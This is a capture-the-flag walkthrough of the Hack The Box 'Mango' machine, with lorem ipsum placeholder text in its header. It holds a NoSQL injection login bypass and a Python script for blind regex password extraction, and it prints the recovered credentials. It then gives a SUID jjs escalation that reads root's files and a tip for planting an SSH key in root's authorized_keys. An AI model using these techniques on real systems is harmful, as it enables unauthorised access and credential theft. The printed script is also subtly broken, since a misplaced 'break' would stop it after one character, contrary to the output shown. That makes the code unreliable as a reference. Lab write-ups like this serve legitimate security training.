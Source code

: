 ```yaml
---
layout: single
title: Mango - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-11-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-mango/mango_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-mango/mango_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
    |   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
    |_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Mango | Search Base
    | ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
    | Not valid before: 2019-09-27T14:21:19
    |_Not valid after:  2020-09-26T14:21:19
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -p- mango.htb
    PORT    STATE SERVICE VERSION
    22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
    443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  nmap -Pn -sV -n -sU mango.htb
    All 1000 scanned ports on mango.htb (10.10.10.162) are closed

2. Enum with dirb and nikto, loot:
    Login Page: http://staging-order.mango.htb   (also shown in nmap ssl-script)

3. Browsing https://mango.htb/analytics.php gives you a key and that it's applicable for *codepen.io, add it to host-file
    root@p3:~/Downloads# cat /etc/hosts
      10.10.10.162	mango.htb staging-order.mango.htb mango.htb.codepen.io

    Browsing the site https://mango.htb.codepen.io/analytics.php now gives us analytic data over startups in different states.

4. Connecting to Elasticsearch and using some random table gives us data from /User/iansadovy/Downloads/Entities.cvs
    POSSIBLE USERNAME: iansadovy

5. Trying NoSQL Injection (via Burp) on the login page reveals that the username is admin.
   Request with 'testuser' returns Response '200 OK', but request with user 'admin' returns '302 Found', confirming the user.
    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=testuser&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 200 OK

    REQUEST
      POST / HTTP/1.1
      Host: staging-order.mango.htb
      username=admin&password[$gt]=&login=login
    RESPONSE
      HTTP/1.1 302 Found

6. In order to get the password we need a script go through every character to see if we get 302 or 200 responses.
   From the following two sites I found examples of Blind NoSQL Injection using POST.
    .. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
    .. https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

   I used the script from 0daylabs as my base and modified it to fit my objective, complete script below.

     import requests
     import string
     import re

     pw = ""
     url = "http://staging-order.mango.htb/index.php"

     # Each time a 302 redirect is seen, we should restart the loop
     restart = True

     while restart:
         restart = False

         # Characters like *, ., &, and + has to be avoided because we use regex
         for i in string.ascii_letters + string.digits + "!#%&'(),/:;<=>@[]^_`{}~-":
             payload = pw + i
             post_data = {'username': 'admin', 'password[$regex]': "^" + re.escape(payload) + ".*", 'login': 'login'}
             #print(post_data)
             r = requests.post(url, data=post_data, allow_redirects=False)
             #print(r)

             # A correct password means we get a 302 redirect
             if r.status_code == 302:
                 print(payload)
                 restart = True
                 pw = payload

             break

    NOTE: In the end I got stuck with regex and special characters. re.escape() and "^" infront of the payload solved it.

7. Run the script to extract the password and login.
   NOTE: Creds - admin:t9KcS3>!0B#2

   root@p3:/opt/htb/machines/mango# python pwExtract.py
      t
      t9
      t9K
      t9Kc
      t9KcS
      t9KcS3
      t9KcS3>
      t9KcS3>!
      t9KcS3>!0
      t9KcS3>!0B
      t9KcS3>!0B#
      t9KcS3>!0B#2
    root@p3:/opt/htb/machines/mango#

8. Modify the script to enumerate users. We know of user admin, so using the script will stop on A. Using burp I found another
   user starting with M. Entered M as the starting letter in the script and run it:

   root@p3:/opt/htb/machines/mango# python userExtract.py
      ma
      man
      mang
      mango
   root@p3:/opt/htb/machines/mango#

   Extract the password for user Mango.
   root@p3:/opt/htb/machines/mango# python pwExtract.py
      h
      h3
      h3m
      h3mX
      h3mXK
      h3mXK8
      h3mXK8R
      h3mXK8Rh
      h3mXK8RhU
      h3mXK8RhU~
      h3mXK8RhU~f
      h3mXK8RhU~f{
      h3mXK8RhU~f{]
      h3mXK8RhU~f{]f
      h3mXK8RhU~f{]f5
      h3mXK8RhU~f{]f5H
   root@p3:/opt/htb/machines/mango#

   NOTE: Creds - mango:h3mXK8RhU~f{]f5H

9. Using SSH to login with admin-creds doesn't work, but with mango-creds it does. Looking in /home/admin we can see user.txt
   but can't read it. Change user to admin to get the flag.

    mango@mango:/home/admin$ cat user.txt
      cat: user.txt: Permission denied
    mango@mango:/home/admin$ su admin
    $ cat user.txt
      79bf****************************

ALL FOUND CREDS:
  admin:t9KcS3>!0B#2
  mango:h3mXK8RhU~f{]f5H
  iansadovy:
  MrR3boot:
  root:


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. SSH in as user mango and pivot to admin. Upgrade the shell, python isn't available so user python3 instead.
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    admin@mango:/home/mango$

2. Running lse.sh gives ut two binaries with SUID bit set
    [!] fst020 Uncommon setuid binaries........................................ yes!
    ---
    /usr/bin/run-mailcap
    /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
    ---

3. Looking at gftobins jjs has a lot of exploits, the one that worked for me is "File Read". Trying to use "Sudo" or "Shell" made the
   shell non-interactive / stuck. Using "Reverse Shell" I wasn't able to get a callback, so I opted towards the easy "File Read".

   admin@mango:/dev/shm$ vi read.sh
   admin@mango:/dev/shm$ chmod +x read.sh
   admin@mango:/dev/shm$ ./read.sh
     Warning: The jjs tool is planned to be removed from a future JDK release
     jjs> var BufferedReader = Java.type("java.io.BufferedReader");
     jjs> var FileReader = Java.type("java.io.FileReader");
     jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
     jjs> while ((line = br.readLine()) != null) { print(line); }
     8a8e****************************

   NOTE: To get an interactive root-shell you can also use "File Write" and write your public key to /root/.ssh/authorized_keys

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


MongoDB NoSQLi:
  https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#post-with-json-body
  https://blog.0daylabs.com/2016/09/05/mongo-db-password-extraction-mmactf-100/

GTFOBINS:
  https://gtfobins.github.io/gtfobins/jjs/
